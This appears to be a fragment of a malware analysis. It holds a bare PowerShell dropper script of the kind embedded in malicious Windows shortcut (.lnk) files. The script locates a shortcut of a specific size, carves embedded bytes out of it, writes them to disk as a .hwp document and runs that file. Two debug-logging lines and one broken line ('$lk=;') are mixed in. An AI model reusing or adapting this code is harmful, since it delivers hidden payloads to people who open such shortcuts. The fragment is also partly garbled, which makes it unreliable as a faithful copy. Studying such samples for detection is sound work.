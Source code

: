 $lk=ls -Path '.\' -filter '*.lnk'| Where {$_.length -eq 56397};
ac -path "C:\Users\user\Downloads\1.txt" $lk
$lk=;
ac -path "C:\Users\user\Downloads\1.txt" $lk
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');

$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];

$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;









